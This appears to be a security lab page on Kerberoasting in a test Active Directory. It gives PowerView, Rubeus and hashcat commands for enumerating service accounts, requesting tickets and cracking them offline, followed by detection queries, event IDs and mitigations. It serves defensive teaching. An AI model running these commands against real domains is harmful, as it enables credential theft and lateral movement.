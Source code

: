 # Attack Scenario: Kerberoasting

This scenario demonstrates how attackers extract and crack Kerberos service tickets (TGS) for service accounts with weak passwords, allowing lateral movement or privilege escalation in an on-prem Active Directory environment.

**MITRE Techniques:**
- Credential Access (T1558.003)

## Lab Environment
- Active Directory Domain Controller (`DC01`)
- Windows 11 workstation joined to domain
- Service account: `svc-webapp`
  - SPN: `HTTP/webapp01.internal.lab`
  - Member of Domain Users
  - Password: weak / old

## Objectives
- Enumerate user accounts with SPNs
- Request TGS tickets
- Extract and crack TGS hashes offline
- Reuse credentials for SMB or RDP access

## Execution
### 1. Enumerate SPNs with PowerView

```Get-DomainUser -SPN | Select SamAccountName, ServicePrincipalName```

### 2. Request service tickets

```Rubeus.exe kerberoast```

### 3. Extract and crack hashes offline

```hashcat -m 13100 kerberoast.hashes rockyou.txt```

## Detection Guidance

### 🔹 Defender for Identity
- Alert: "Kerberoasting attempt detected"

### 🔹 Event Logs
- Event ID 4769 (TGS Request)
- Unusual volume of TGS requests for different SPNs

### 🔹 KQL Example – Sentinel

```
SecurityEvent
| where EventID == 4769
| where ServiceName endswith '$' == false
| summarize Count = count() by Account, ClientAddress, bin(TimeGenerated, 15m)
| where Count > 5
```


## Mitigations

- Use long, complex service account passwords
- Rotate passwords regularly
- Replace static accounts with gMSAs
- Monitor for abnormal TGS requests

## Resources

- https://attack.mitre.org/techniques/T1558/003/
- https://github.com/GhostPack/Rubeus
- https://adsecurity.org/?p=2293


[← Back to Lab Index](../../README.md)
[→ Related: ]()